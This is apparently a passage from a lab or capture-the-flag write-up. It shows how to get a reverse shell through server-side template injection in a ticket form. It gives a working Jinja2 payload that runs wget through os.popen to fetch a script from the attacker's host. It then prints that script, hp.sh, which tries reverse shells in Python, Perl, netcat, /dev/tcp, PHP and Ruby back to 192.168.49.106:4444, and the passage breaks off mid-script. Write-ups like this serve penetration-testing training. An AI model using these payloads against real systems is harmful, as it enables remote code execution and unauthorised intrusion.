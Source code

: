 ``
https://github.com/payloadbox/ssti-payloads
``

First step to get a Reverse Shell would be to download the reverse shell that we would want to get executed on the box.

The sample SSTI payload will be used to grab and execute files. Its pretty simple to use all we would do is replace what is in between the quotes.

```
payload>{{config.__class__.__init__.__globals__['os'].popen('wget http://192.168.49.106/hp.sh -O /tmp/hp.sh').read()}}
```

## Reverse Shell
---
Downloading the file

Title: Download
Description: {{config.__class__.__init__.__globals__['os'].popen('wget http://192.168.49.106/hp.sh -O /tmp/hp.sh').read()}}

Browsing to the ticket created will execute the file grabbing hp.sh

Contents of hp.sh

```
#!/bin/bash

if command -v python > /dev/null 2>&1; then
        python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("192.168.49.106",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
        exit;
fi

if command -v perl > /dev/null 2>&1; then
        perl -e 'use Socket;$i="192.168.49.106";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        exit;
fi

if command -v nc > /dev/null 2>&1; then
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.106 4444 >/tmp/f
        exit;
fi

if command -v sh > /dev/null 2>&1; then
        /bin/sh -i >& /dev/tcp/192.168.49.106/4444 0>&1
        exit;
fi

if command -v php > /dev/null 2>&1; then
        php -r '$sock=fsockopen("192.168.49.106",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
        exit;
fi

if command -v ruby > /dev/null 2>&1; then
        ruby -rsocket -e'f=TCPSocket.open("192.168.49.106",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
        exit;
fi

if command -v lua > /dev/null 2>&1; then
```